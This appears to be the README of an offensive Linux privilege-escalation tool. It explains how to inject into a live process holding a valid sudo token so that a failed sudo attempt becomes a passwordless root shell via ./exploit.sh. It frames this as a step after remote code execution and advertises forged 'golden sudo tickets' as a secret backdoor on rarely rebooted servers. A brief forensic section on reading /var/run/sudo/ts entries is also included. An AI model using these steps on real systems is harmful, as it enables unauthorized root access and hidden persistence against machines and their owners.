 # [Linux] Privilege Escalation by injecting process posseding sudo tokens.

#### Inject process that have valid sudo token and activate our own sudo token.

## How to use
```sh
$ sudo whatever
[sudo] password for user:    # Send <ctrl>+c since you don't have the password). # This creates an invalid sudo tokens.
$ ./exploit.sh # This activates our sudo token.
.... wait 3 seconds
$ sudo -i # no password required :)
# uid=0(root) gid=0(root) groups=0(root)
```

## Requirements
A currently living process that has a valid sudo token with the same uid.
```
The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
```
## Usecase

This is far from a generic privesc without requirements but it works, for instance if you have a RCE and don't have the user password but the user uses sudo then you can easily get root by stealing his token.

## More

### Forensic, DFIR ?

To be improved but for each sudo attemps there is an entry added to /var/run/sudo/ts/[username]
```sh
./read_sudo_token_forensic  < /var/run/sudo/ts/user
version, flags, uid, sid, starttime_sec, starttime_nsec
2, 0, 0, 0, 0, 0
2, 0, 1001, 1145, 188, 660000000
2, 0, 1001, 24878, 7461, 490000000
2, 0, 1001, 24578, 6974, 10000000
```

### Golden sudo tickets

A very good way to leave a secret backdoor on servers that rarely reboots.
No done yet but checkout './write_sudo_token $$' in ./extra_tools

----
By [@chaignc][] [#HexpressoTeam][hexpresso].


[hexpresso]:     https://hexpresso.github.io
[@chaignc]:    https://twitter.com/chaignc
